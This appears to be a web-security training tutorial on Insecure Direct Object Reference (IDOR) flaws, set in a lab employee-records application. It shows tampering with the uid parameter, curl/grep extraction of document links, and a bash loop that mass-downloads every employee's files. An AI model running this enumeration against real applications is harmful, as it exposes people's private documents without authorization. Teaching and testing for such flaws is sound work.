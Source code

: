 # Mass IDOR Enumeration

Exploiting IDOR vulnerabilities is easy in some instances but can be very challenging in others. Once we identify a potential IDOR, we can start testing it with basic techniques to see whether it would expose any other data. As for advanced IDOR attacks, we need to better understand how the web application works, how it calculates its object references, and how its access control system works to be able to perform advanced attacks that may not be exploitable with basic techniques.

Let's start discussing various techniques of exploiting IDOR vulnerabilities, from basic enumeration to mass data gathering, to user privilege escalation.

***

## Insecure Parameters

Let's start with a basic example that showcases a typical IDOR vulnerability. The exercise below is an `Employee Manager` web application that hosts employee records:

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Our web application assumes that we are logged in as an employee with user id `uid=1` to simplify things. This would require us to log in with credentials in a real web application, but the rest of the attack would be the same. Once we click on `Documents`, we are redirected to

`/documents.php`:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>http://SERVER_IP:PORT/documents.php?uid=1</p></figcaption></figure>

When we get to the `Documents` page, we see several documents that belong to our user. These can be files uploaded by our user or files set for us by another department (e.g., HR Department). Checking the file links, we see that they have individual names:

```html
/documents/Invoice_1_09_2021.pdf
/documents/Report_1_10_2021.pdf
```

We see that the files have a predictable naming pattern, as the file names appear to be using the user `uid` and the month/year as part of the file name, which may allow us to fuzz files for other users. This is the most basic type of IDOR vulnerability and is called `static file IDOR`. However, to successfully fuzz other files, we would assume that they all start with `Invoice` or `Report`, which may reveal some files but not all. So, let's look for a more solid IDOR vulnerability.

We see that the page is setting our `uid` with a `GET` parameter in the URL as (`documents.php?uid=1`). If the web application uses this `uid` GET parameter as a direct reference to the employee records it should show, we may be able to view other employees' documents by simply changing this value. If the back-end end of the web application `does` have a proper access control system, we will get some form of `Access Denied`. However, given that the web application passes as our `uid` in clear text as a direct reference, this may indicate poor web application design, leading to arbitrary access to employee records.

When we try changing the `uid` to `?uid=2`, we don't notice any difference in the page output, as we are still getting the same list of documents, and may assume that it still returns our own documents:

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>http://SERVER_IP:PORT/documents.php?uid=2</p></figcaption></figure>

However, `we must be attentive to the page details during any web pentest` and always keep an eye on the source code and page size. If we look at the linked files, or if we click on them to view them, we will notice that these are indeed different files, which appear to be the documents belonging to the employee with `uid=2`:

```html
/documents/Invoice_2_08_2020.pdf
/documents/Report_2_12_2020.pdf
```

This is a common mistake found in web applications suffering from IDOR vulnerabilities, as they place the parameter that controls which user documents to show under our control while having no access control system on the back-end. Another example is using a filter parameter to only display a specific user's documents (e.g. `uid_filter=1`), which can also be manipulated to show other users' documents or even completely removed to show all documents at once.

***

## Mass Enumeration

We can try manually accessing other employee documents with `uid=3`, `uid=4`, and so on. However, manually accessing files is not efficient in a real work environment with hundreds or thousands of employees. So, we can either use a tool like `Burp Intruder` or `ZAP Fuzzer` to retrieve all files or write a small bash script to download all files, which is what we will do.

We can click on \[`CTRL+SHIFT+C`] in Firefox to enable the `element inspector`, and then click on any of the links to view their HTML source code, and we will get the following:

```html
<li class='pure-tree_link'><a href='/documents/Invoice_3_06_2020.pdf' target='_blank'>Invoice</a></li>
<li class='pure-tree_link'><a href='/documents/Report_3_01_2020.pdf' target='_blank'>Report</a></li>
```

We can pick any unique word to be able to `grep` the link of the file. In our case, we see that each link starts with `<li class='pure-tree_link'>`, so we may `curl` the page and `grep` for this line, as follows:

```shell-session
$ curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep "<li class='pure-tree_link'>"

<li class='pure-tree_link'><a href='/documents/Invoice_3_06_2020.pdf' target='_blank'>Invoice</a></li>
<li class='pure-tree_link'><a href='/documents/Report_3_01_2020.pdf' target='_blank'>Report</a></li>
```

As we can see, we were able to capture the document links successfully. We may now use specific bash commands to trim the extra parts and only get the document links in the output. However, it is a better practice to use a `Regex` pattern that matches strings between `/document` and `.pdf`, which we can use with `grep` to only get the document links, as follows:

```shell-session
$ curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep -oP "\/documents.*?.pdf"

/documents/Invoice_3_06_2020.pdf
/documents/Report_3_01_2020.pdf
```

Now, we can use a simple `for` loop to loop over the `uid` parameter and return the document of all employees, and then use `wget` to download each document link:

```bash
#!/bin/bash

url="http://SERVER_IP:PORT"

for i in {1..10}; do
        for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
                wget -q $url/$link
        done
done
```

When we run the script, it will download all documents from all employees with `uids` between 1-10, thus successfully exploiting the IDOR vulnerability to mass enumerate the documents of all employees. This script is one example of how we can achieve the same objective. Try using a tool like Burp Intruder or ZAP Fuzzer, or write another Bash or PowerShell script to download all documents.

